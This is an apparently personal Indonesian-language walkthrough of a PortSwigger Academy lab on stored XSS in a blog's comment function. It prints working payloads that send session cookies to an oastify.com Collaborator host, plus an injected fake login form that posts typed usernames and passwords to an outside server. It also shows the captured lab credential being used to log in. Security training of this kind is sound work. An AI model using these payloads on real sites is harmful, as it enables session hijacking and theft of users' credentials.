 # Mengeksploitasi Cross-Site Scripting untuk Menangkap Password

Lab ini mengandung kerentanan **Stored XSS** pada fungsi komentar blog. Pengguna yang menjadi korban akan melihat semua komentar setelah diposting. Untuk menyelesaikan lab ini, eksploitasi kerentanan ini untuk mencuri username dan password korban, kemudian gunakan kredensial tersebut untuk masuk ke akun korban.

**Catatan:** Untuk mencegah platform Academy digunakan untuk menyerang pihak ketiga, firewall kami memblokir interaksi antara lab dan sistem eksternal yang sewenang-wenang. Untuk menyelesaikan lab ini, Anda harus menggunakan server publik default Burp Collaborator.

Beberapa pengguna mungkin menyadari bahwa ada solusi alternatif untuk lab ini yang tidak memerlukan Burp Collaborator. Namun, metode ini jauh kurang halus dibandingkan dengan mencuri kredensial.

---------------------------------------------

## Referensi:

- [PortSwigger: Cross-Site Scripting](https://portswigger.net/web-security/cross-site-scripting)

---------------------------------------------

## Langkah-Langkah Eksploitasi

### 1. Menguji Kerentanan XSS pada Salah Satu Postingan Blog

Pertama, kita menguji apakah terdapat kerentanan XSS pada salah satu postingan blog. Payload berikut berhasil:

```html
<script>alert('XSS')</script>
```

![Langkah 1](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/1.png)

Payload ini menjalankan fungsi `alert` untuk memastikan bahwa kerentanan XSS benar-benar ada.

### 2. Menguji Payload Sederhana yang Dieksekusi

Selanjutnya, kita mencoba payload XSS yang lebih kompleks:

```html
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Atau alternatif lain:

```html
<img src=x onerror="this.src='http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie='+document.cookie; this.removeAttribute('onerror');">
```

![Langkah 2](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/2.png)

Payload ini mencoba mencuri cookie sesi pengguna dengan mengirimkannya ke server eksternal.

### 3. Menerima HTTP Request dengan Cookie

Setelah mengirimkan payload, kita menerima permintaan HTTP yang berisi cookie sesi:

![Langkah 3](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/3.png)

### 4. Mengatur Cookie di Debugger Firefox

Kami mencoba mengatur cookie secara manual menggunakan debugger Firefox:

```javascript
document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"
```

![Langkah 4](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/4.png)

Namun, metode ini tidak berhasil dalam menyamar sebagai korban.

### 5. Solusi: Menangkap Username dan Password Menggunakan Burp Collaborator

Untuk mencuri kredensial (username dan password), kita menggunakan pendekatan berikut:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
});">
```

Payload ini akan mengirimkan kombinasi username dan password ke server Burp Collaborator setiap kali password diisi.

![Langkah 5](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/5.png)

### 6. Menerima Respon dari Burp Collaborator

Setelah payload dijalankan, kami menerima kredensial korban melalui Burp Collaborator:

![Langkah 6](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/6.png)

**Kredensial yang Dicuri:**

```
administrator:ec7ga43qyd9zisyb4h4i
```

![Langkah 7](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/7.png)

### 7. Menggunakan Kredensial untuk Masuk ke Akun Korban

Dengan kredensial yang dicuri, kita dapat masuk ke akun korban:

![Langkah 8](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/8.png)

## Penjelasan

**Cross-Site Scripting (XSS)** adalah kerentanan keamanan yang memungkinkan penyerang untuk menyuntikkan skrip berbahaya ke dalam situs web yang dipercaya oleh pengguna. Dalam kasus ini, kerentanan **Stored XSS** memungkinkan skrip berbahaya disimpan di server (misalnya, dalam komentar blog) dan dijalankan setiap kali pengguna melihat konten tersebut.

### Payload Sederhana

Payload awal yang digunakan adalah skrip sederhana yang menampilkan alert. Ini digunakan untuk mengkonfirmasi keberadaan kerentanan XSS.

```html
<script>alert('XSS')</script>
```

### Payload untuk Mencuri Cookie

Payload berikutnya mencoba mencuri cookie sesi pengguna dengan mengirimkannya ke server eksternal:

```html
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Atau:

```html
<img src=x onerror="this.src='http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie='+document.cookie; this.removeAttribute('onerror');">
```

### Payload untuk Menangkap Username dan Password

Solusi yang lebih canggih melibatkan menangkap username dan password pengguna ketika mereka mengisi formulir login:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
});">
```

- **`fetch` API:** Mengirimkan permintaan HTTP POST ke subdomain Burp Collaborator Anda.
- **`method: 'POST'`:** Menentukan metode HTTP yang digunakan adalah POST.
- **`mode: 'no-cors'`:** Menghindari pembatasan CORS sehingga permintaan dapat dikirimkan tanpa diblokir.
- **`body:username.value+':'+this.value`:** Mengirimkan kombinasi username dan password sebagai isi tubuh permintaan.

### Proses Pencurian dan Penyamarannya

1. **Pencurian Kredensial:**
   
   Ketika korban melihat komentar yang berisi payload ini dan mengisi formulir login, skrip akan mengirimkan kredensial mereka ke server Burp Collaborator.

2. **Pengambilan Kredensial:**
   
   Anda kemudian memantau interaksi di Burp Collaborator dan mengambil kredensial yang dikirimkan oleh korban.

3. **Penyamaran:**
   
   Dengan menggunakan kredensial yang dicuri, Anda dapat masuk ke akun korban tanpa perlu mengetahui kredensial asli.

## Kesimpulan

Eksploitasi **Stored XSS** memungkinkan penyerang untuk mencuri kredensial pengguna dan menyamar sebagai mereka, memberikan akses tidak sah ke akun pengguna. Dengan menggunakan **Burp Collaborator**, metode ini menjadi lebih tersembunyi dan efektif dibandingkan dengan metode sederhana seperti penggunaan `alert()`. Penting untuk selalu memvalidasi dan menyaring input pengguna untuk mencegah kerentanan XSS.

## Referensi Tambahan

- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
